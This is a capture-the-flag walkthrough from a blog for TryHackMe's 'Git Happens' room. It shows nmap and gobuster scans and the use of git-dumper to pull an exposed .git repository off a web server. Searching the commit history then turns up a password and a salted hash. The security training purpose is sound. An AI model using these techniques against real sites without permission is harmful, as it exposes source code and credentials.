

# Git Happens
**Date:** September 18th 2022

**Author:** j.info

**Link:** [**Git Happens**](https://tryhackme.com/room/githappens) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Easy

<br>


<br>

## Objectives
- Find the Super Secret Password

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 $ip`

```
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Super Awesome Site!
| http-git: 
|   10.10.15.121:80/.git/
|     Git repository found!
|_    Repository description: Unnamed repository; edit this file 'description' to name the...
```

<br>

### Gobuster Scan

`gobuster dir -u http://$ip -t 100 -r -x php,txt,html -w dir-med.txt`

```
/index.html           (Status: 200) [Size: 6890]
/css                  (Status: 200) [Size: 273] 
/.git                 (Status: 200) [Size: 1391]
/dashboard.html       (Status: 200) [Size: 3775]
```

<br>

## Website Digging

Visiting the main page:


<br>

## Git Digging

And navigating to the .git directory we saw in the nmap scan:



I try to clone the repository but it fails:

`git clone http://$ip/.git/ repo`

```
Cloning into 'repo'...
fatal: repository 'http://10.10.15.121/.git/' not found
```

Looking around online I find a tool called git-dumper which will take git repositories found on web pages and clone them for you. It can be found here:

[**git-dumper**](https://github.com/arthaud/git-dumper)

Installing it:

`pip install git-dumper`

```
...
...
Successfully installed dulwich-0.20.46 git-dumper-1.0.6
```

It installed into a directory not in my path so I had to search it out, and it ended up being in /home/kali/local/bin. Running it:

`/home/kali/.local/bin/git-dumper http://10.10.15.121/.git/ repo`

```
[-] Testing http://10.10.15.121/.git/HEAD [200]
[-] Testing http://10.10.15.121/.git/ [200]
[-] Fetching .git recursively
...
...
[-] Running git checkout .
Updated 7 paths from the index
```

And checking out the repo directory we downloaded it to:

```
total 44
drwxr-xr-x 4 kali kali 4096 Sep 18 09:52 .
drwxr-xr-x 5 kali kali 4096 Sep 18 09:52 ..
drwxr-xr-x 2 kali kali 4096 Sep 18 09:52 css
-rw-r--r-- 1 kali kali 3775 Sep 18 09:52 dashboard.html
-rw-r--r-- 1 kali kali 1115 Sep 18 09:52 default.conf
-rw-r--r-- 1 kali kali  120 Sep 18 09:52 Dockerfile
drwxr-xr-x 7 kali kali 4096 Sep 18 09:52 .git
-rw-r--r-- 1 kali kali  792 Sep 18 09:52 .gitlab-ci.yml
-rw-r--r-- 1 kali kali 6890 Sep 18 09:52 index.html
-rw-r--r-- 1 kali kali   54 Sep 18 09:52 README.md
```

I'm now able to use standard git commands to look at the repository. Looking at the log of commits:

`git log --pretty=oneline`

```
d0b3578a628889f38c0affb1b75457146a4678e5 (HEAD -> master, tag: v1.0) Update .gitlab-ci.yml
77aab78e2624ec9400f9ed3f43a6f0c942eeb82d add gitlab-ci config to build docker file.
2eb93ac3534155069a8ef59cb25b9c1971d5d199 setup dockerfile and setup defaults.
d6df4000639981d032f628af2b4d03b8eff31213 Make sure the css is standard-ish!
d954a99b96ff11c37a558a5d93ce52d0f3702a7d re-obfuscating the code to be really secure!
bc8054d9d95854d278359a432b6d97c27e24061d Security says obfuscation isn't enough.
e56eaa8e29b589976f33d76bc58a0c4dfb9315b1 Obfuscated the source code.
395e087334d613d5e423cdf8f7be27196a360459 Made the login page, boss!
2f423697bf81fe5956684f66fb6fc6596a1903cc Initial commit
```

We only have one branch:

`git branch -a`

```
* master
```

I look through the commits with git show and end up finding the flag in this one, which is just the password:

`git show e56eaa8`


At this point we're done but I wanted to look through the rest of the commits and see in this one that it has a password hash and salt listed, and that if the username is admin and the hash matches it should log you into the website:

`git show bc8054d`


I throw the password and the SaltyBob salt into a sha-512 generator and sure enough it matches the hash in the code:


Finally, I try to login to the webpage with the credentials but it doesn't appear to actually be a valid working webpage so we can't get in.

<br>

With that we've completed this CTF!


<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Using the **git-dumper** tool to download the web repository to our local machine as a git repository
- Looking through the git commits to find the flag

<br>

Many thanks to:
- [**hydragyrum**](https://tryhackme.com/p/hydragyrum) for creating this CTF
- **TryHackMe** for hosting this CTF

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)